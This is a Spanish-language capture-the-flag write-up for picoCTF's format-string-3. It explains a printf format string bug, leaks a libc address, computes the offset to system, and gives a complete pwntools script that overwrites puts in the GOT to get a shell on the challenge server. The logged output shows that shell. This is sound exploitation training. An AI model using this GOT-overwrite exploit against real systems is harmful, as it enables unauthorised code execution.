 En este ejercicio nos dan 4 cosas:

* Binario
* Código en C
* Lib-c
* Intérprete

Para dejarlo todo listo para trabajar con el como cualquier otro binario sin intérprete propio o Lib-c vamos a usar el comando `Pwninit`. Este comando crea un nuevo binario a partir del que esté en el directorio actual y lo enlaza con todo lo que necesita para tener que despreocuparnos.

```c
./format-string-3_patched
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7ffff7e5a3f0
hola
hola
/bin/sh
```

El programa hace un leak de una dirección, nos devuelve nuestro input y también `/bin/sh`.

Vamos a analizar el código del programa:

```c
#include <stdio.h>
#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf); // Dirección Leakeada
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf); // Vulnerabilidad de Format String

	puts(normal_string);  // '/bin/sh'

	return 0;
}
```

Vale, hay una vulnerabilidad de format strings ya que no se le indica en ningún momento al `printf` el formato de la variable que hay que printear. Como podemos ver hay un `puts(/bin/sh)`. Eso llama bastante la atención, si conseguimos cambiar ese `puts` por un `system` ejecutaríamos una shell. Como tenemos una vulnerabilidad de format strings vamos a intentar sobrescribir el got y hacer ese reemplazo.

Para eso podemos intentar usar la función `mtstr_payload` de pwntools. Para usarla y que funcione necesitamos 2 cosas:

* La posición en el Stack de un Parámetro controlable.
* Un diccionario con la dirección en memoria a sobrescribir (en este caso la dirección de puts en el got) y el nuevo valor que queremos introducir (en este caso la dirección de system)

Vamos a hacer un fuzzing del stack para sacar valores importantes:

```c
python fuzz.py

38: [b'ABCDEF0x3325464544434241'] // Nuestro input (ABCDEF)
```

Hemos encontrado la dirección en el Stack donde está nuestro parámetro controlable! Ahora solo queda encontrar la dirección de `puts` y la de `system` para el diccionario que se pasa como argumento a la función `mtstr_payload`.

Para sacar la dirección de puts lo podemos hacer de la siguiente manera:

```c
pwndbg> disas main
Dump of assembler code for function main:
   . . .
   0x00000000004012ef <+172>:	mov    rdi,rax
   0x00000000004012f2 <+175>:	call   0x401080 <puts@plt> // Dirección de PUTS en la PLT, esta no nos vale 
   0x00000000004012f7 <+180>:	mov    eax,0x0
   . . .
```

```c
pwndbg> disas 0x401080
Dump of assembler code for function puts@plt:
   0x0000000000401080 <+0>:	endbr64
   0x0000000000401084 <+4>:	bnd jmp QWORD PTR [rip+0x2f8d]        # 0x404018 <puts@got.plt>
   0x000000000040108b <+11>:	nop    DWORD PTR [rax+rax*1+0x0]
End of assembler dump.
```

Esa si que nos vale! La dirección de puts es: `0x404018`. Solo nos queda la dirección de System. Esto se complica un poco mas ya que `system` no se usa en el programa así que no podemos simplemente hacer un `disas`.

Entonces, como la sacamos? Pues la tenemos que sacar desde la Lib-c. Aquí pasa una cosa, no podemos simplemente buscar en la libc que nos dan por la dirección y ya ya que tiene esa libc tiene PIE habilitado.

Parece que no es posible sacar la dirección pero tenemos que recordar algo, el programa nos dá una dirección de la libc, si conseguimos saber que distancia hay desde la dirección del leak a `system` podremos en la maquina remota saber en que dirección está `system`.

Vamos a calcular el offset:

```python
pwndbg> x/gx system
0x7ffff7e2f760 <system>:	0x74ff8548fa1e0ff3
pwndbg> x/gx setvbuf
0x7ffff7e5a3f0 <setvbuf>:	0x55415641fa1e0ff3

offset = 0x7ffff7e5a3f0 - 0x7ffff7e2f760 = 0x2ac90 # Lo tenemos!
```

Ahora que tenemos todo lo que hace falta podemos hacer el script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./format-string-3_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rhea.picoctf.net", 60672)

    return r


def main():
    r = conn()
    controlable = 38
    
    r.recvlines(1)
    leaked = r.recvline().decode().strip() 
    info(f'Leaked: {leaked}')
    
    leaked_vbuf = int(leaked.split()[-1], 16) # Guardamos la dirección que leakea el programa
    info(f'Leaked VBUF: {hex(leaked_vbuf)}')
    
    puts_address = 0x404018 # Dirección de Puts
    
    vbuf_to_sustem_offset = 0x7ffff7e5a3f0 - 0x7ffff7e2f760 # Calculo del offset
    info(f'vbuf_to_sustem_offset: {hex(vbuf_to_sustem_offset)}')
    system_address= leaked_vbuf - vbuf_to_sustem_offset # Calculo de la dirección system
    info(f'System Address: {hex(system_address)}')
    valor = {puts_address: system_address} # Diccionario (DIRECCIÓN A SOBRESCRBIR: NUEVO VALOR)
    
    payload = fmtstr_payload(controlable, valor, write_size='byte')
    
    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    main()

```

Vamos a probar a ver si va:

```c
python solve.py            
[*] '/home/ub1cu0/Desktop/picoCTF/format-string-3/format-string-3_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fd000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/ub1cu0/Desktop/picoCTF/format-string-3/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] '/home/ub1cu0/Desktop/picoCTF/format-string-3/ld-linux-x86-64.so.2'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to rhea.picoctf.net on port 51335: Done
[*] Leaked: Okay I'll be nice. Here's the address of setvbuf in libc: 0x716f9495a3f0
[*] Leaked VBUF: 0x716f9495a3f0
[*] vbuf_to_sustem_offset: 0x2ac90
[*] System Address: 0x716f9492f760
[*] Switching to interactive mode
whoami
root
$ ls
Makefile
artifacts.tar.gz
flag.txt // LA FLAG
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$  
```

Estamos dentro!
